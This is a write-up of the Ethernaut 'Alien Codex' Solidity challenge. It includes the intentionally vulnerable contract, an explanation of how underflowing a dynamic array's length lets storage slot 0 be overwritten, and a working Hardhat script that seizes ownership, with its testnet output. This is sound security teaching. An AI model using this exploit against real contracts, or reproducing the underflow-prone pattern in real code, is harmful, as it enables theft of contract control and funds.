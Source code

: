 ```yaml
---
title: Ethernaut \#19 Alien Codex
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Alien Codex challenge writeup
---
```


## Alien Codex

### Challenge

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

* Understanding how array storage works
* Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* Using a very `underhanded` approach


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

### Background

This challenge is actually something I have suggested and discussed with some friends after a HAM radio lecture a few days ago :)

Arrays are allocated in two different ways. There are fixed-length arrays and dynamic-length arrays. Fixed-length arrays allocate space as if each element in the array was a separate variable. Dynamic-length arrays on the other hand, work in a very different way. Dynamic-length arrays store the length of the array in the slot given, and then use the `keccak` hash of that slot number to point to the location of the array. Then the array is accessed in a consecutive fashion. The problem arrises when one realizes that the length value is just a number stored in the `array.length` variable and if it can be manipulated, an attacker could extend it and make the array overlap other stuff in storage and then potentially access it by indexing into the array. Since solidity version `0.6.0` the `array.length` is now treated as read only by the compiler, however it is **NOT** a constant. Manipulating the slot using some other technique could still change its value.

### Attack

In order to attack this challenge, we first need to extend the length of the array. This can be achieved usign an integer underflow vulnerability. This can be achieved by simply calling the `retract` function before adding anything to the array. This will underflow the integer and go from `0x0000000000000000000000000000000000000000000000000000000000000000` to `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`. In order to call the `retract` function we also need to call the `make_contact` function just to bypass the modifier check. Finally we can calculate the offset of the array start to the first slot (slot 0) and replace the item at that index with the attackers address using the `revise` function.

We could consider clearing the `contact` variable and even fixing the array length, but since its not required we wont be bothering with this.

* Call the `make_contact` function to bypass the modifier check
* Call the `retract` function to underflow the `length` variable
* Calculate the array starting point using `keccak(uint256(0x01))`
* Calculate the offset at which the array would wrap around
* Call the `revise` function to replace the array location at the calculated offset with the attackers address

#### alien-codex-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    alienCodexAddress = "0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5";
    contract = await ethers.getContractAt("AlienCodex", alienCodexAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address : " + contract.address)
    console.log("Contract owner: " + await contract.owner())

    // calculate start of array
    arrayStart = ethers.utils.keccak256(ethers.utils.hexZeroPad(0x01, 32))

    // calculate owner offset (slot 0) from start of array
    offset = ethers.BigNumber.from('0x10000000000000000000000000000000000000000000000000000000000000000').sub(ethers.BigNumber.from(arrayStart))
    offsetHex = ethers.utils.hexZeroPad(offset, 32)

    // bypass modifier check
    tx = await contract.connect(account).make_contact()
    receipt = await tx.wait()

    // underflow array length to access full space
    tx = await contract.connect(account).retract()
    receipt = await tx.wait()

    // replace owner by writing address to array at calculated offset
    tx = await contract.connect(account).revise(offsetHex, ethers.utils.hexZeroPad(account.address, 32))
    receipt = await tx.wait()
    
    console.log("Contract owner: " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/alien-codex-solve.js --network rinkeby
Level address : 0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5
Contract owner: 0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272
Contract owner: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
